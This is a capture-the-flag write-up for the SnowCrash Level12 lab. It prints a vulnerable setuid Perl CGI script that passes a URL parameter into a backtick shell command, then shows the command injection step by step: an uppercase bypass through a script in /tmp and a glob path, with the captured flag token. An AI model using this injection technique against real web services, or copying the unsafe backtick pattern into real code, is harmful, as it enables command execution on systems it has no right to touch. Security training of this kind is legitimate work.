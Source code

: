 # Level12

## Hint

Seems like a bash command is executed in the perl code, perhaps with a bit of tampering you could exploit that.

## Answer

Let's check our current directory:
```
level12@SnowCrash:~$ ll
total 16
dr-xr-x---+ 1 level12 level12  120 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level12 level12  220 Apr  3  2012 .bash_logout*
-r-x------  1 level12 level12 3518 Aug 30  2015 .bashrc*
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl*
-r-x------  1 level12 level12  675 Apr  3  2012 .profile*
```

Let's first read the contents of the `level12.pl` file:
```perl
level12@SnowCrash:~$ cat level12.pl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/;
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }
}

n(t(param("x"), param("y")));
```

Alright seems like there is will be a server on port 4646, also the program will accept two parameters: `x` and `y`. If we read a bit more we notice that a bash command is executed and that our first parameter `x` is executed in that bash command, however the `x` parameter is modified to uppercase and then stripped of its whitespace. So it won't be that easy to exploit it:
```
level12@SnowCrash:~$ curl localhost:4646/?x='`getflag > /tmp/flag`'
.level12@SnowCrash:~$cat /tmp/flag'
cat: /tmp/flag: No such file or directory
```

Indeed the server actually executes \``GETFLAG>/TMP/FLAG`\` instead of what we typed, so it won't execute the command we wanted. However we can just create a file which will execute a bash script:
```
level12@SnowCrash:~$ echo 'getflag > /tmp/flag' > /tmp/EXPLOIT
level12@SnowCrash:~$ chmod +x /tmp/EXPLOIT
```

Then instead of writing the path to that file *(it won't find our file because the path will be turn into uppercase characters)*, we can just use a `*` to match any path:
```
level12@SnowCrash:~$ curl localhost:4646/?x='`/*/EXPLOIT`'
..level12@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```